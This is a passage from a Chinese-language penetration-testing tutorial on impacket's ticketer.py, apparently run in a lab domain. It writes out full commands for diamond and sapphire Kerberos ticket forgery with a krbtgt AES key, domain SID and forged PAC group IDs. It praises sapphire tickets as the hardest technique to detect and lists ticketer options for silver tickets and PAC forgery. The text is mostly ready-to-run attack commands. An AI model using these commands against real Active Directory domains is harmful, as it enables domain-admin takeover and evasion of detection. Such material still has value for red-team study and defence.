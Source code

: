 ```bash
py -3 ticketer.py -request -domain test.com -domain-sid S-1-5-21-2799988422-2257142125-1453840996 -user administrator -password 1qaz@WSX -aesKey 245a674a434726c081385a3e2b33b62397e9b5fd7d02a613212c7407b9f13b41 -user-id 1500 -groups 12,513,518,519,520 qqq
```

[![](assets/1702372846-b78301fc6ec071b4e3fdc9334b8f8fd4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123722-afd66ad0-6bb1-1.png)

**蓝宝石票据伪造**

钻石票据是伪造的 PAC 特权，但是蓝宝石票据是将真实高权限用户的 PAC 替换到低权限的 TGT 中，从而成为目前最难检测的手法

不过该技术还是 impacket 的一个分支，正在等待合并。

注意，因脚本问题，未复现成功

```bash
py -3 ticketer_imper.py -request -domain test.com -domain-sid S-1-5-21-2799988422-2257142125-1453840996 -user administrator -password 1qaz@WSX -aesKey 245a674a434726c081385a3e2b33b62397e9b5fd7d02a613212c7407b9f13b41 -impersonate administrator qqq
```

参考：

[https://github.com/SecureAuthCorp/impacket/pull/1411](https://github.com/SecureAuthCorp/impacket/pull/1411)

#### 常用选项

```bash
-spn SPN 银票用，一般都是某个服务器的 cifs 或 DC 的 ldap 服务，mssql 啥的也可以考虑
-request 要求请求 TGT，这个脚本里可以理解为钻石票据伪造。必须同时存在-user 和-password
-aesKey hex key 用来签名票据的 krbtgt 的 AES 加密的密码
-nthash NTHASH  用来签名票据的 krbtgt 的 NTLM 加密的密码
-keytab KEYTAB 请求文件内容中的多个银票据
-duration DURATION 修改票据的失效时间
-user-id USER_ID 指定伪造 PAC 的用户权限 ID，默认是 500 管理员
-groups GROUPS 指定伪造 PAC 的组权限 ID，默认是 513, 512, 520, 518, 519 这五个组
```

### raiseChild.py(无环境)

可使用密码认证、hash 认证、Kerberos 认证

